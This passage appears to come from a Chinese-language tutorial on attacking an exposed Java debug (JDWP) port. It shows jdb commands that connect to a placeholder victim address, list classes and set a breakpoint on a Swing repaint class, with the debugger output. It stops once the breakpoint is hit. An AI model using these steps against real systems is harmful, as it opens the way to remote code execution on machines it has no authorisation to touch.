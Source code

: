 ```
C:\Users\virusito>jdb -connect com.sun.jdi.SocketAttach:port=18001,hostname=VICTIM_IP_HERE
```

```
Set deferred uncaught java.lang.Throwable
```

```
Initializing jdb ...
```

```
>
```

然后，查找一个可以运行的类，该类如果已经建立，可能很快就会触发断点：

```
>classes
```

```
...
```

```
javax.swing.RepaintManager$DisplayChangedHandler
```

```
javax.swing.RepaintManager$PaintManager
```

```
javax.swing.RepaintManager$ProcessingRunnable
```

```
javax.swing.RootPaneContainer
```

```
javax.swing.ScrollPaneConstants
```

```
...
```

当重绘窗口时，`javax.swing.RepaintManager$ProcessingRunnable`将被触发。这是一个非常好的候选项。让我们通过使用`stop`命令在它上面添加一个断点：

```
> stop in javax.swing.RepaintManager$ProcessingRunnable.run()
```

```
Set breakpoint javax.swing.RepaintManager$ProcessingRunnable.run()
```

然后，断点很快被触发：

```
Breakpoint hit: "thread=AWT-EventQueue-0", javax.swing.RepaintManager$ProcessingRunnable.run(), line=1.871 bci=0
```
